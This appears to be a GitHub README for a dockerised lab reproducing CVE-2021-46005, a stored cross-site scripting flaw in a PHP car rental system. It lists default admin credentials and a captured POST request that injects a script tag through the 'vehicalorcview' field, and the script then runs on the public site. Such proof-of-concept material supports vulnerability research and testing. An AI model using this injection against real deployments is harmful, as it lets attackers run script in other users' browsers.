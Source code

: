 # CVE-2021-46005

Online Car Rental System 1.0 - Stored XSS

## Run Vuln

```
docker-compose build

docker-compose up -d
```

## Stop Vuln

```
docker-compose down -v
```

## Online Car Rental System

The Online Car Rental System with Source Code is a PHP project that allows you to transact online booking for car rentals. The system is using PHP and MySQL.The system is very straight forward. After you log in as admin, you can create a brand and add vehicles used for booking online. The system also has testimonials and a contact us page so the customer can give their feedback and contact the site owner. The customer can register on the website and select which vehicle they’d like to rent. The project's website has a pleasant user interface and it's user-friendly.

## Reproduction

1. Visit http://test.com/admin/ and Login as admin (admin / admin)

![](images/1.png)

2. Visit http://localhost/car-rental/admin/post-avehical.php

![](images/2.png)

3. Fill All the details on the page. After submitting, capture the request and change the "vehicalorcview" parameter with our Payload "<script>alert("CAR")</script>" and submit

![](images/3.png)

My request here, please replace your own cookie.

```
POST /OnlineCarRental/admin/post-avehical.php HTTP/1.1
Host: test.com:9202
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------13786099262839578593645594965
Content-Length: 2085
Origin: http://test.com:9202
Connection: close
Referer: http://test.com:9202/OnlineCarRental/admin/post-avehical.php
Upgrade-Insecure-Requests: 1

-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="vehicletitle"

TestName
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="brandname"

2
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="vehicalorcview"

<script>alert("CAR")</script>
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="priceperday"

200
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="fueltype"

Diesel
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="modelyear"

2008
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="seatingcapacity"

22
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="img1"; filename="Untitled.png"
Content-Type: image/png

�PNG

-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="img5"; filename=""
Content-Type: application/octet-stream


-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="powerdoorlocks"

1
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="antilockbrakingsys"

1
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="driverairbag"

1
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="passengerairbag"

1
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="centrallocking"

1
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="crashcensor"

1
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="submit"


-----------------------------13786099262839578593645594965--
```

4. Open the http://localhost/car-rental/ and our Payload excuted.

![](images/4.png)
